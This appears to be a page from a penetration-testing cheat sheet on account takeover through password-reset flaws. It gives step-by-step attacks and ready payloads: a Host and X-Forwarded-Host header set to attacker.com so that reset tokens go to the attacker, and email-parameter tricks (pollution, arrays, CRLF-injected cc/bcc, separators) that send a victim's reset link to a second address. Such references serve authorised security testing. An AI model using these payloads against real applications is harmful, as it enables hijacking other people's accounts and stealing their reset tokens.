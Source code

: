 +++
title = "Account Takeovers"
date = "2022-10-16"
description = "All about account take over techniques, methods, payloads, how/why/when they work."
+++ 

# Account Takeover

## Password Reset Feature

### Password Reset Token Leak Via Referrer

1. Request password reset to your email address
2. Click on the password reset link
3. Don't change password
4. Click any 3rd party websites(eg: Facebook, twitter)
5. Intercept the request in Burp Suite proxy
6. Check if the referer header is leaking password reset token.

### Account Takeover Through Password Reset Poisoning

1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Forward the request with the modified header
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
4. Look for a password reset URL based on the *host header* like : `https://attacker.com/reset-password.php?token=TOKEN`


### Password Reset Via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
